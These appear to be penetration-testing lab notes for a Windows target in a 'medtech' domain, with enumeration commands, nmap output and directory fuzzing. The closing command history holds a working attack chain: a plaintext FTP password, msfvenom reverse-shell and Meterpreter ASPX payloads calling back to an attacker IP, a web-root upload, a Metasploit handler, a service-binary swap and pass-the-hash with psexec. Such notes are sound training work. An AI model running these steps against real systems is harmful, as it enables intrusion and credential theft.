 # Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`
- 
- 

# Accounts
### username / password
` `   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.207.226 --top-ports 1000`
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
`sudo nmap -A -T4 -p- <IP>`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c
ftp ftp_jp@192.168.204.226 -p 24621
pass: ~be<3@6fe1Z:2e8

sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.45.186 LPORT=7777 -f aspx -o aspx7777.aspx
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.45.186 LPORT=445 -f aspx -o aspx445.aspx
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.186 LPORT=443 -f aspx -o aspx443.aspx
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.186 LPORT=80 -f aspx -o aspx80.aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.186 LPORT=445 -f aspx -o rev445.aspx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.186 LPORT=443 -f aspx -o rev443.aspx
// ftp upload to /umbraco/bin/Debug/net6.0/publish/wwwroot
put aspx7777.aspx

sudo msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.45.186; set lport 443; exploit"

http://192.168.204.226:24680/aspx7777.aspx


// make another payload port 4444 in C:\Skylark\Development.exe

powershell Service-Restart -name DevService

//migrate to new pid, shell dies otherwise

impacket-psexec -hashes 00000000000000000000000000000000:445414c16b5689513d4ad8234391aacf itwk04admin@192.168.204.226
```